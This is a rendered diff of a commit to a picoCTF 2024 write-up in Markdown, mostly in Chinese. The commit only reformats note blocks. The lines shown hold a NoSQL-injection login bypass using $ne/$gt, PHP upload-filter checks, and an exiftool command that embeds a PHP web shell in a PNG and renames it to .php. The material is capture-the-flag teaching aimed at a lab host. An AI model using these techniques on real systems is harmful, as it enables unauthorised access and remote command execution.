

Before and after one commit to Chw41/My-CTF-Challenges, a Markdown page: picoCTF/2024/picoCTF 2024 writeup.md, 2 parts joined by grey strips. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/picoCTF/2024/picoCTF 2024 writeup.md
+++ b/picoCTF/2024/picoCTF 2024 writeup.md
@@ -326,12 +326,12 @@ const User = models.User || mongoose.model<UserInterface>("User", UserSchema);
 > [NoSQL injection - HackTricks](https://book.hacktricks.xyz/pentesting-web/nosql-injection)
 
 #### 1. 繞過驗證
-:::info
-Authentication bypass
-在 MongoDB 中
-$ne: 代表 "not equal"，用於篩選出某個欄位的值不等於指定值的文件（或記錄）。
-$gt: 代表 "greater than"，用於篩選出某個欄位的值大於指定值的文件（或記錄）。
-:::
+> [!NOTE]
+>Authentication bypass
+>在 MongoDB 中
+>$ne: 代表 "not equal"，用於篩選出某個欄位的值不等於指定值的文件（或記錄）。
+>$gt: 代表 "greater than"，用於篩選出某個欄位的值大於指定值的文件（或記錄）。
+
 ```
 POST /api/login/ HTTP/1.1
 Host: atlas.picoctf.net:61553
@@ -477,31 +477,31 @@ dirsearch -u http://atlas.picoctf.net:64632/
 > 看到 /uploads 路徑 301
 
 #### 4. png 塞入php後門
-:::info
-常見的上傳檔案格式判斷
+> [!NOTE]
+>常見的上傳檔案格式判斷
+>
+>(1) HTML顯示 only png，內部沒有過濾
+>```php
+>$filename = basename($_FILES['image_file']['name']);
+>```
+>
+>(2) 判斷filename
+>```php
+>$filename = basename($_FILES['image_file']['name']);
+>$extension = strtolower(explode(".", $filename)[1]);
+>if (!in_array($extension, ['png', 'jpeg', 'jpg']) !== false)
+>```
+>
+>(3)判斷filename & file information
+>```php
+>$filename = basename($_FILES['image_file']['name']);
+>$extension = strtolower(explode(".", $filename)[1]);
+>if (!in_array($extension, ['png', 'jpeg', 'jpg']) !== false)
+>使用者上傳檔案時，getimagesize取得圖像檔案的資訊
+>list($_, $_, $type) = getimagesize($_FILES['image_file']['tmp_name']);
+>if (in_array($_FILES['image_file']['type'], ["image/png", "image/jpeg", "image/jpg"]) === false)
+>```
 
-(1) HTML顯示 only png，內部沒有過濾
-```php
-$filename = basename($_FILES['image_file']['name']);
-```
-
-(2) 判斷filename
-```php
-$filename = basename($_FILES['image_file']['name']);
-$extension = strtolower(explode(".", $filename)[1]);
-if (!in_array($extension, ['png', 'jpeg', 'jpg']) !== false)
-```
-
-(3)判斷filename & file information
-```php
-$filename = basename($_FILES['image_file']['name']);
-$extension = strtolower(explode(".", $filename)[1]);
-if (!in_array($extension, ['png', 'jpeg', 'jpg']) !== false)
-使用者上傳檔案時，getimagesize取得圖像檔案的資訊
-list($_, $_, $type) = getimagesize($_FILES['image_file']['tmp_name']);
-if (in_array($_FILES['image_file']['type'], ["image/png", "image/jpeg", "image/jpg"]) === false)
-```
-:::
 ```
 exiftool -Comment='<?php system($_GET["cmd"]); ?>' CTF.png
 mv CTF.png CTF.png.php
````
Also changed, not shown: other parts of picoCTF/2024/picoCTF 2024 writeup.md (+2 -2 lines).
